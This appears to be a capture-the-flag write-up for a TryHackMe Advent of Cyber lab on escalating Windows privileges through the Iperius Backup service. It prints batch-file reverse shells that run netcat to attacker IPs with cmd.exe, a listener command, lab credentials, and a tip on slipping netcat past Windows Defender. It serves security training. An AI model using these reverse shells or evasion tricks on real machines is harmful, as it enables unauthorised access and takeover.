









## Day 13

What good's a disaster recovery plan when it's part of the disaster?

> McSkidy has realized that she worked on a rough draft of a disaster recovery plan but locked down the permissions on the file to ensure that it was safe. However, the Grinch accessed the local system and reduced the permissions of her account. Can you elevate her privileges and get the file back?

Our first step is to RDP into the machine. I like to use `remmina` but maybe you're more of an `xfreerdp` gal. Whatever it is, once we plug in McSkidy's details:

    mcskidy:Password1

We get onto the box. Let's run `net user` to see who's here.  

In the Start Menu, we can see the machine has Iperius Backup installed. As it sounds, it's a backup tool. If we go back to our attacker box and check `searchsploit` for whether Iperius has any exploits, we find a privilege escalation vulnerability:

    searchsploit iperius 

Let's download it:

    searchsploit -m windows/local/46863.txt

And see what it says. It looks like we have to:

1. Log in as a low privilege user (done!)
2. Download netcat from an attacking machine (i.e. our own)
3. Create a batch file to send a shell back to our attacker:

    @echo off
    c:\users\low\downloads\nc.exe 192.168.0.163 443 -e cmd.exe

4. Set up a listener: `nc -lvnp 443`
5. Open Iperius Backup and create a new backup job
6. Right click the new job and select "Run Backup As Service"

Fortunately, there's a version of netcat already sitting in McSkidy's Downloads folder, so let's go to Step 3. A batch file is just a script including Windows commands used for automating repetitive tasks. "@echo off" tells the script to run without popping up a command prompt window and the next line is the command to run netcat, connect to our IP and port, and start cmd.exe for us.  

One thing to note: A lot of versions of netcat are detected and deleted by Windows Defender, the built-in anti-virus. There are ways around this by compiling your own source code (or using someone else's compiled version.)  

Our script looks like this:

    @echo off
    C:\Users\McSkidy\Downloads\nc.exe 10.4.22.22 443 -e cmd.exe

We'll enter that into a new Notepad file and then save it in Downloads.  

That's Step 3 done. Now back on our machine we also run netcat by in listener mode, waiting for McSkidy's machine to connect back to us:

    nc -lvnp 443

Now we have to create a new job in Iperius Backup. We can choose any folder to backup and any folder to back it up *to*, the important part is the Other Processes tab. We want to select the batch script we wrote and ensure it runs before the backup.  

Save the job under whatever name you want (it auto-filled the name "Desktop" for me; not bad.) Then right click it and go "Run backup as service"

See, by running the backup with the normal option, it would run as the current user. That's McSkidy, which is who we'd get a shell as. Not much good: we already have access to her account. By running the backup as service, it uses the permission level of the service itself. We can check which account that is by going back to PowerShell and running `sc.exe qc IperiusSvc`.  

So the Iperius service itself is actually running as `thegrinch`. If we go check our listener now, we should have a shell. And if we run `whoami`, who are we logged in as?

Ol' Grinchypoo. Now let's do some recon with our escalated privileges and answer today's questions.  

>  Complete the username: p..... 

If we do `net user` we can see a user called "pepper"  

> What is the OS version?

TryHackMe's walkthrough specifies a command to narrow this down:

    systeminfo | findstr /B /C: "OS Name"/C: "OS Version"

Personally I like to just run a straight up `systeminfo` because there are tools you can copy the output into (Windows Exploit Suggester e.g.) for further privilege escalation.  

The answer is 10.0.17763 N/A Build 17763  

> What backup service did you find running on the system?

How'd I know to look for "IperiusSvc" before? You can list all the services running with the command `sc.exe query` and looking through it. Another way to look at services is with the command `wmic services list` but the default format is absolutely godawful, so I like to make it more sensible with `wmic services list /format:list`. We get:

    AcceptPause=TRUE
    AcceptStop=TRUE
    Caption=Iperius Backup Service
    CheckPoint=0
    CreationClassName=Win32_Service
    Description=
    DesktopInteract=FALSE
    DisplayName=Iperius Backup Service
    ErrorControl=Normal
    ExitCode=0
    InstallDate=
    Name=IperiusSvc
    PathName=C:\Program Files (x86)\Iperius Backup\IperiusService.exe
    ProcessId=3188
    ServiceSpecificExitCode=0
    ServiceType=Own Process
    Started=TRUE
    StartMode=Auto
    StartName=.\thegrinch
    State=Running
    Status=OK
    SystemCreationClassName=Win32_ComputerSystem
    SystemName=THE-GRINCH-HACK
    TagId=0
    WaitHint=0

That answers our next question too.  

> What is the path of the executable for the backup service you have identified?

C:\Program Files (x86)\Iperius Backup\IperiusService.exe

> Run the whoami command on the connection you have received on your attacking machine. What user do you have?

You already know it's the-grinch-hack\thegrinch  

> What is the content of the flag.txt file?

Usually this is in Desktop but today it's in Documents, so we can do...

    type C:\Users\thegrinch\Documents\flag.txt

...to print it out.  

> The Grinch forgot to delete a file where he kept notes about his schedule! Where can we find him at 5:30?

In the same folder:

Oh geez, ah, oh boy. 
